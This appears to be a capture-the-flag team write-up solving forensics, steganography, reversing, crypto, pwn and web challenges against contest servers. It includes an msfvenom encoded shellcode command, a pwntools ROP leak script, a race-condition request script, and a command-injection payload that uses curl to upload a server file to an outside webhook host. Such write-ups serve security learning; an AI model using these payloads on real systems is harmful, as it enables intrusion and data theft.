Table of Contents
- Forensic - Hidden in Plain Graphic
- Steganography - Broken, Hotline Miami
- Reverse Engineering - Http-Server
- Cryptography - Gist of Samuel
- PWN - babysc, Liveleak
- Web - Healthcheck, Straghtforward
Forensic
1. Hidden in Plain Graphic (Nyamuk)
Description
Agent Ali, who are secretly a spy from Malaysia has been communicate with others spy from all around the world using secret technique. Intelligence agencies have been monitoring his activities, but so far, no clear evidence of his communications has surfaced. Can you find any suspicious traffic in this file?
Files Given: plain_zight.pcap
First, I opened the packet capture to see what protocols were inside. Next, I filtered HTTP traffic because maybe there were files I could export, but I found nothing.
Then, I tried looking for hidden content inside the pcap using binwalk. From the scan, I saw that there was a PNG file detected at offset 0x10DF1, which is 69105 in decimal. So, I knew there was a hidden image embedded inside the packet.
binwalk -e plain_zight.pcap
dd if=plain_zight.pcap of=manual_extracted.png bs=1 skip=69105
file manual_extracted.png
zsteg manual_extracted.png


Flag: umcs{h1dd3n_1n_png_st3g}
Steganography
1. Broken (Akmlalff)
Description
Can you fix what’s broken?
Files Given: Broken.mp4
We could not see the video because it was broken. After using exiftool and checking the hex, everything looked okay, so I thought the MP4 was really broken. I searched for an online MP4 repair tool, uploaded the file, and got the flag from the repaired video.


Flag: umcs{h1dd3n_1n_fr4me}
2. Hotline Miami (Akmlalff)
Description
You’ve intercepted a mysterious floppy disk labeled 50 BLESSINGS, left behind by a shadowy figure in a rooster mask. The disk contains a cryptic image and a garbled audio file. Rumor has it the message reveals the location of a hidden safehouse tied to the 1989 Miami incident. Decrypt the clues before the Russians trace your signal.
Files Given: iamthekidyouknowwhatimean.wav, readme.txt, rooster.jpg
The readme hinted at the flag format. For the audio, I inserted it into Sonic Visualiser and used a spectrogram layer. This revealed the last two parts of the flag: WATCHING and 1989.
For rooster.jpg, I dropped it into AperiSolve and found Richard near the end of the strings. Richard is a character in Hotline Miami, and after researching the lore, the clues fit the format Subject_Be_Verb_Year.



Flag: umcs{Richard_Is_Watching_1989}
Reverse Engineering
1. Http-Server (Akmlalff)
Description
I created a http server during my free time.
Connection: 34.133.69.112:8080
Files Given: server.unknown
We got a file named server.unknown. After checking the file type, it was an ELF file. I decompiled it with Ghidra and saw that the server checks for a very specific request string using strstr:
GET /goodshit/umcs_server HTTP/13.37
printf "GET /goodshit/umcs_server HTTP/13.37\r\n\r\n" | nc 34.133.69.112 8080

Flag: umcs{http_server_a058712ff1da79c9c9bbf211907c65a5cd}
Cryptography
1. Gist of Samuel (Ikhwn.nzm & Akmlalff)
Description
Samuel is gatekeeping his favourite campsite. We found his note.
Files Given: Gist of Samuel.txt
Hint: https://gist.github.com/umcybersec
We were given a file full of train emojis. From the pattern, the blue train was always singular, so we assumed it was Morse code because spaces were needed to separate the characters.
After converting it to dots and dashes, we used online Morse decoders. The result looked like a hash, but after the admin hint, we realized it was actually a GitHub Gist identifier.
https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3eThe Gist contained ASCII art. Since Samuel is obsessed with trains, we tried Rail Fence cipher. Using key 8, then adjusting the text width, revealed the flag.



Flag: umsc{WILLOW_TREE_CAMPSITE}
PWN
1. babysc (Ikwn.nzm)
Description
Shellcode
Connection: 34.133.69.112:10001
Files Given: Dockerfile, babysc.c, babysc
First, I analyzed the binary using checksec. RWX segments were enabled, so I could inject and run shellcode directly. Then I used simple XOR encoding to bypass the blacklist and get the flag.
msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -b '\x0f\x05\xcd\x80' -e x86/call4_dword_xor -o payload_xor.bin

Flag: umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
2. Liveleak (Ikhwn.nzm)
Description
No desc
Connection: 34.133.69.112:10007
Files Given: chall, Dockerfile, ld-2.35.so, libc.so.6
checksec showed no canary, NX enabled, and no PIE. That means stack overflow was possible, but ROP was needed. After using a cyclic pattern in GDB, the offset was 72 bytes.
from pwn import *
context.binary = elf = ELF('./chall')
libc = ELF('./libc.so.6')
p = remote('34.133.69.112', 10007)
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
payload = flat(
b'A' * 72,
pop_rdi,
elf.got['puts'],
elf.plt['puts'],
elf.symbols['main']
)
p.sendlineafter("Enter your input:", payload)

Flag: umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}
Web
1. Healthcheck (Ikhwn.nzm)
Description
I left my hopes_and_dreams on the server. can you help fetch it for me?
Connection: http://104.214.185.119/index.php
The PHP source accepted a URL, sanitized blacklist characters, and executed a curl command to check the HTTP response. Since direct command execution was limited, the working approach was to use curl with a webhook and upload the target file using -F.
http://127.0.0.1/x$(curl -F file=@hopes_and_dreams https://webhook.site/5af80e59-cbce-4dca-bca4-747e8397f71b)

Flag: umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}
2. Straghtforward (Nyamuk)
Description
Test out our game center. You'll have free claiming bonus for first timers!
Connection: http://159.69.219.192:7859/
The portal allowed users to register, log in, claim a daily bonus, and buy a flag when the balance reached $3000. Reviewing the Flask source showed a race condition in the /claim route: the app checks whether the bonus was claimed, then updates the database separately.
By grabbing the session cookie before claiming and sending many parallel POST requests to /claim, the balance could increase multiple times before the claim state locked.
import threading
import requests
url = "http://159.69.219.192:7859/claim"
session_cookie = "..."
threads_count = 20
def claim_bonus():
cookies = {'session': session_cookie}
response = requests.post(url, cookies=cookies, timeout=3)
print(f"[+] Status: {response.status_code} | Length: {len(response.text)}")


Flag: UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}